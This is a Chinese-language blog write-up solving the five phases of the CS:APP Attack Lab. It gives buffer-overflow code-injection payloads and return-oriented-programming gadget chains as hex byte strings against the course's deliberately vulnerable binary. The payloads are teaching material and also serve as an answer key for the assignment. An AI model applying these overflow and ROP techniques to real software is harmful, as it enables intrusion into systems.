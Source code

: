 ```yaml
---
title: Attacklab
date: 2025-04-17 17:36:40 +0800
categories: [CS, ICS]
tags: [CS, ICS, 安全]
---
```

## Phase1
phase1很简单，关键就是**用touch1的地址覆盖掉原来的返回地址**
直接用objdump反汇编一下

![attacklab](/assets/imgs/attacklab/attacklab-1.png)

不难注意到在getbuf中的第一行就在栈帧上分配了18个bytes的空间，那么我们只需要首先给出18个bytes的垃圾值，再在后面跟上touch1的地址覆盖掉原来的返回地址，程序就会在ret时跳转到touch1
于是，我们就得到了Phase1的解

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
10 17 40 00 00 00 00 00 //touch1
```

运行结果如下

![attacklab](/assets/imgs/attacklab/attacklab-2.png)

## Phase2
和Phase1的不同在于Phase2需要传递参数，即**把我的cookie传递到rdi寄存器中**
所以需要想办法让程序执行下面的汇编代码

```nasm
movq $0x45730404,%rdi
pushq $0x40173c
ret
```

其中0x40173c是touch2的地址

使用gcc编译再用objdump反汇编，会得到

```nasm
0000000000000000 <.text>:
   0:	48 c7 c7 04 04 73 45 	mov    $0x45730404,%rdi
   7:	68 3c 17 40 00       	push   $0x40173c
   c:	c3                   	ret
```

这样就得到了想要执行的代码，只需要想办法让程序能够执行这些代码就可以了
尝试把这段代码当做输入，那么只需要获取这段代码的地址即可
于是，我们使用gdb，在getbuf上打上断点，即可得到此时的栈顶地址，也就是这段代码的地址：0x55657f98

![attacklab](/assets/imgs/attacklab/attacklab-3.png)

于是尝试以下的输入：

```
48 c7 c7 04 04 73 45 68
3c 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
98 7f 65 55 00 00 00 00
```

会发现非常顺利

![attacklab](/assets/imgs/attacklab/attacklab-4.png)

## Phase3
不难发现Phase3和Phase2的差别并不是很大， 只不过想要传递的值变为了字符串(我的cookie)的地址而已，但我的cookie在原程序中并不存在，所以只能通过我的输入存储在栈上。

我的cookie是0x45730404，转换为ascii码是34 35 37 33 30 34 30 34，文档中说

> The string should consist of the eight hexadecimal digits (ordered from most to least significant) without a leading “0x.”

于是我的第一个解答诞生了

```
34 35 37 33 30 34 30 34
48 c7 c7 98 7f 65 55 68
4d 18 40 00 c3 00 00 00
a0 7f 65 55 00 00 00 00
```

我的想法就是把需要的字符串首先输入，存储在getbuf的栈帧上，然后就可执行如下指令

```nasm
movq $0x55657f98,%rdi 
pushq $0x40184d
ret
```

这其中，0x55657f98是getbuf的栈顶的位置，此时这里存储着需要的字符串，0x40184d是touch3的地址。由于0x55657f98上并不是想要执行的代码，所以在输入中，把返回地址覆盖为0x55657fa0。
出乎我的意料的是竟然没有成功，仔细看文档，发现在Advice中还有这种东西：

>When functions hexmatch and strncmp are called, they push data onto the stack, overwriting portions of memory that held the buffer used by getbuf. As a result, you will need to be careful where you place the string representation of your cookie.

所以我的字符串并不能放在getbuf的栈帧中....
注意到getbuf是由test调用，二者的关系如下：

```c
unsigned getbuf()
{
	char buf[BUFFER_SIZE];
	Gets(buf);
	return 1;
}

void test()
{
	int val;
	val = getbuf();
	printf("...");
}
```

所以接下来尝试把字符串放在test的栈帧中
于是有了第二个答案：

```
48 c7 c7 b8 7f 65 55 68
4d 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
98 7f 65 55 00 00 00 00
34 35 37 33 30 34 30 34
```

与第一个答案不同的是，在我想要执行的指令中，字符串的地址变为了0x55657fb8。这是因为此时字符串在test的栈帧中，我们获取test的栈顶地址

![attacklab](/assets/imgs/attacklab/attacklab-5.png)

就是字符串的地址
于是Phase3就被我们解决了

![attacklab](/assets/imgs/attacklab/attacklab-6.png)

## Phase4
从Phase4开始就进入了ROP阶段，由于栈的随机化等等保护措施，我们并不能像前三个Phase那样
直接注入代码，而是调用程序中本就存在的代码，也就是gadget
Phase4仍然是解决touch2，需要输入我们的cookie
首先我们需要想办法把我们的cookie传递到程序中，由于栈的位置不确定，不能直接使用立即数了，只能想办法把cookie传递给rdi寄存器
我们只需要把我的cookie放到栈顶，然后执行如下指令

```nasm
popq %rdi
ret
```

然而我们翻遍`farm`也只能找到`popq %rax`对应的字节码，于是只能这样

```nasm
popq %rax  //58
movq %rax,%rdi //48 89 c7
```

![attacklab](/assets/imgs/attacklab/attacklab-7.png)
![attacklab](/assets/imgs/attacklab/attacklab-8.png)

二者可以在如上的位置找到，于是我们就得到了解

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ec 18 40 00 00 00 00 00
04 04 73 45 00 00 00 00
12 19 40 00 00 00 00 00
3c 17 40 00 00 00 00 00 //touch2
```

![attacklab](/assets/imgs/attacklab/attacklab-9.png)

尝试运行，发现成功解决

## Phase5
这最后一个Phase同样是通过ROP的方式让程序执行touch3，同样的，需要想办法把我的cookie字符串放在栈上，并想办法把它的地址传递给rdi寄存器
同样由于栈的地址不确定，不能直接解决
注意到`farm.c`中有这样一个函数

```c
/* Add two arguments */
long add_xy(long x, long y)
{
	return x+y;
}
```

其对应的汇编是这样

```nasm
0000000000401923 <add_xy>:
  401923: 48 8d 04 37           lea    (%rdi,%rsi,1),%rax
  401927: c3                    ret
```

或许我们可以想办法获取rsp的值和cookie字符串在栈上的偏移量，然后利用这个函数来得到字符串的绝对地址
首先想办法获取rsp的值，在`farm.c`的汇编文件中搜索一下，发现只能执行`movq %rsp,%rax`

![attacklab](/assets/imgs/attacklab/attacklab-10.png)

这里的`48 89 e0`即是`movq %rsp,%rax`
接下来我们想执行`movq %rax,%rdi`或者`movq %rax,%rsi`，一搜索，还真有！

![attacklab](/assets/imgs/attacklab/attacklab-11.png)

然而只有`48 89 c7`，也就是`movq %rax,%rdi`
那么我们只能想办法把偏移量传给rsi了，我们这时候显然并不知道偏移量，但我们知道如何把偏移量传递给寄存器，也就是使用popq指令，然而同样的，我们只能找到`popq %rax`对应的字节码，接下来的任务就是想办法把rax的值传给rsi了
经过一系列的尝试(这里就不写了)，我们最后发现只有这么一套操作是可行的：

```nasm
movl %eax,%ecx
movl %ecx,%edx
movl %edx,%esi
```

于是我们可以暂时的得到我们的答案了

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
3f 19 40 00 00 00 00 00 //movq %rsp,%rax
12 19 40 00 00 00 00 00 //movq %rax,%rdi
ec 18 40 00 00 00 00 00 //popq %rax
XX 00 00 00 00 00 00 00 //偏移量
af 19 40 00 00 00 00 00 //movl %eax,%ecx
73 19 40 00 00 00 00 00 //movl %ecx,%edx
8e 19 40 00 00 00 00 00 //movl %edx,%esi
23 19 40 00 00 00 00 00 //lea (%rdi,%rsi,1),%rax
12 19 40 00 00 00 00 00 //movq %rax,%rdi 再把字符串的地址传递给rdi
4d 18 40 00 00 00 00 00 //touch3
34 35 37 33 30 34 30 34 //Cookie字符串
```

有了这些，也不难确定偏移量XX为0x48了，尝试运行

![attacklab](/assets/imgs/attacklab/attacklab-12.png)

到此，全部解决！

